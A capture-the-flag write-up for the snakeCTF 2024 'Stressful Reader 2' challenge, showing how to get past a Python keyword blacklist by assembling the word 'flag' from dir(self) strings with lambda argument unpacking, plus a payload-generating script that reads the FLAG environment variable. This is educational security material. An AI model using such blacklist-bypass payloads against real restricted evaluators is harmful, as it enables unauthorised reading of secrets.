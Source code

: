 # Stressful Reader 2 [_snakeCTF 2024 Quals_]

**Category**: Misc

## Description

I really, really, really want to read the $FLAG but why is it so stressful?

## Solution

This challenge builds upon ["Stressful reader"](https://github.com/MadrHacks/snakeCTF2023-Writeups/blob/master/misc/stressful-reader/writeup.md) so with a bit of searching on the web a good starting point for the solution can be found.

As in "Stressful reader", the set of characters and keywords that can be used is extremely limited, and `lambda` functions are the way to go to bypass the blacklist. The difference with the previous version of the challenge is that object variables that allow to write `FLAG` easily are not available any more, so a different way to solve the challenge has to be found.

It can be seen that in the `get_var` function, the parameter `varname` is capitalized before being given to `os.getenv`:

```python
def get_var(self, varname):
    varname = varname.upper()
    print(os.getenv(varname))
```

It means that all it takes is finding a way to write "flag"! All the stuff that is needed can be found in `dir(self)`:

```python
>>> print(dir(self))
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__',
 '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__',
 '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__',
 '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
 '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'get_var',
 'run_code']
```

`lambda` functions and list expansions with `*` can be used to access the single letters of the strings in `dir(self)` to compose the word "flag", because:

```python
>>> (lambda s, n, a, k, e: s)(*"snake")
's'
```

All the letters that are needed can be found in `'__format__', '__class__','__ge__'`, so with a little script it's possible to generate the list of parameters that enable the decomposition of these strings and access the single characters:

```python
# Param names to access all the strings in dir(self)
params = ['a' * i for i in range(1,30)]

## there are 29 items in dir(self)

#  __format__ for 'f' -> 6th element in dir(self)
# __class__ for 'la' ->  0th element
# __ge__ for 'g' -> 7th element

def param_letters(s):
    return ['b'*i for i in range(1, len(s)+1)]

f = param_letters('__format__')
c = param_letters('__class__')
g = param_letters('__ge__')

payload = (f"self.get_var((lambda {','.join(params)} : " +
    f"(lambda {','.join(f)}: {f[2]})(*{params[6]}) +" +
    f"(lambda {','.join(c)}: {c[3]} + {c[4]})(*{params[0]}) +" +
    f"(lambda {','.join(g)}: {g[2]})(*{params[7]})" +
    ")(*dir(self)))"
)
```
